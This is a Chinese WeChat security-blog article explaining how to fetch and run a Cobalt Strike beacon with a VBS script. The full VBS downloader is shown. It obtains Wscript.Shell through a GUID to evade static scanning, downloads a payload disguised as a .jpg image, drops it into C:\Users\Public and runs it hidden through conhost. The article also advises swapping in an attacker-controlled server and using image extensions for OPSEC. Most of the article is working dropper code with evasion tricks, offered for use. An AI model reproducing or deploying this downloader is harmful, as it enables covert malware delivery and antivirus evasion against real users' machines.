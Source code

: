 #  通过VBS脚本下载文件并执行

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

**Relay学安全** ![]()

微信号 gh_8d57319ec39c

功能介绍
这是一个纯分享技术的公众号，只想做安全圈的一股清流，不会发任何广告，不会接受任何广告，只会分享纯技术文章，欢迎各行各业的小伙伴关注。让我们一起提升技术。

____

___发表于_

在了解之前，我们需要清楚一件事情，如果我们将beacon.exe，更改后缀为.png还可以运行吗？

这里我生成了一个beacon.exe，将名称更改为beacon.png。

![]()

双击肯定是不能运行的，但是我们可以通过conhost去运行。

conhost全称是Console Host Process, 即命令行程序的宿主进程。简单的说他是微软出于安全考虑，在windows 7和Windows
server 2008中引进的新的控制台应用程序处理机制。

  * 

    
    
    conhost beacon.png

我们运行之后会惊奇的发现，CS上线的进程变成了beacon.png。

![]()

我们在进程也可以看到，进程中跑的也是beacon.png。

![]()

接下来我们进入主题来看如下的VBS代码。

这里代码非常简单，简单解释一下，首先获取到COM对象Wscript.shell，这里是通过getObject去获取的，但是我们会发现为什么获取的是new:72C24DD5-D70A-438B-8A42-98424B88AFB8，这是为了规避静态扫描，那么后面这一长串是什么呢？这一长串字符是GUID。我们可以使用olview.exe
COM对象查看器来查看对象的GUID。

如下图:首先点击Prog IDS，然后搜索Wscript。

![]()

可以看到搜索如下:

![]()

然后我们右键第三个 Copy GUID即可。

如下代码其实就是 CreateObject("Wscript.Shell") 转换过来的。

  * 

    
    
    GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8")

拿到对象之后通过Microsoft.XMLHTTP
COM对象去请求下载文件，这里我们可以指定我们的服务器，需要注意的是这里下载你可以下载.png，.jpg，但是不要去直接下载.exe，或许下载jpg这一类文件更加OPSEC一点。

下载文件之后 复制文件到C:\Users\Public目录下最终利用conhost去执行即可。

如下完整代码:

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Sub LaunchCommand(ByVal obf_command)    With GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8")        .Run .ExpandEnvironmentStrings(obf_command), 0, False    End WithEnd Sub  
    Function obf_SaveToFile(ByVal obf_saveAs, ByRef obf_data())  
        Dim obf_out    Dim obf_shell: Set obf_shell = GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8")    obf_out = obf_shell.ExpandEnvironmentStrings(obf_saveAs)  
        With CreateObject("Adodb.Stream")        .Type = 1        .Open        .write obf_data        .savetofile obf_out, 2    End With    obf_SaveToFile = True    Exit Function  
        obf_SaveToFile = FalseEnd Function  
    Function DownloadFromURL(ByVal obf_URL)  
        With CreateObject("Microsoft.XMLHTTP")        .Open "GET", obf_URL, False        .setRequestHeader "Accept", "*/*"        .setRequestHeader "Accept-Language", "en-US,en;q=0.9"        .setRequestHeader "User-Agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36 Edg/86.0.622.69"        .setRequestHeader "Accept-Encoding", "gzip, deflate"        .setRequestHeader "Cache-Control", "private, no-store, max-age=0"        .setRequestHeader "DNT", "1"        .Send  
            If .Status = 200 Then            DownloadFromURL = .ResponseBody            Exit Function        End If    End With  
        DownloadFromURL = ""End Function  
      
      
      
    Sub DropFile(ByVal obf_saveto)    Dim obf_code    Dim obf_bytes    Dim obf_LaunchIt    obf_LaunchIt = True        obf_bytes = DownloadFromURL("http://localhost:8080/relaysec.jpg")        If obf_SaveToFile(obf_saveto, obf_bytes) And obf_LaunchIt Then        LaunchCommand "conhost C:\Users\Public\dropped-Autoruns.jpg"    End IfEnd Sub  
    Sub obf_MacroEntryPoint()    On Error Resume Next  
        Dim obf_location, obf_path    Dim obf_LaunchIt    obf_LaunchIt = True        Dim obf_shell: Set obf_shell = GetObject("new:72C24DD5-D70A-438B-8A42-98424B88AFB8")    obf_path = obf_shell.ExpandEnvironmentStrings("C:\Users\Public\")    obf_location = obf_path & "dropped-Autoruns.jpg"  
        Dim obf_FSO: Set obf_FSO = CreateObject("Scripting.FileSystemObject")  
        If obf_FSO.FolderExists(obf_path) Then        If obf_FSO.FileExists(obf_location) = False Then            DropFile obf_location        ElseIf obf_LaunchIt Then            LaunchCommand "conhost C:\Users\Public\dropped-Autoruns.jpg"        End If    Else        obf_FSO.CreateFolder (obf_path)        If obf_FSO.FileExists(obf_location) = False Then            DropFile obf_location        ElseIf obf_LaunchIt Then            LaunchCommand "conhost C:\Users\Public\dropped-Autoruns.jpg"        End If    End IfEnd Sub  
    obf_MacroEntryPoint

最后我们来演示一下:

首先定义为.vbs文件，使用Python开一个web服务。

  * 

    
    
    python3 http.server 8080

![]()

执行VBS脚本。  

  * 

    
    
    cscript download.vbs

成功上线，可以看到进程是relaysec-account.jpg，这里其实就是复制到C:\Users\Public\目录去运行的。

![]()

如下C:\Users\Public目录。

![]()

最后别忘记转发噢，你的转发就是我的动力。

  

预览时标签不可点

微信扫一扫  
关注该公众号

继续滑动看下一个

# 通过VBS脚本下载文件并执行

原创 relaysec  [ Relay学安全 ](javascript:void\(0\);)

轻触阅读原文

![]()

Relay学安全

赞 分享 在看

向上滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看 分享 留言

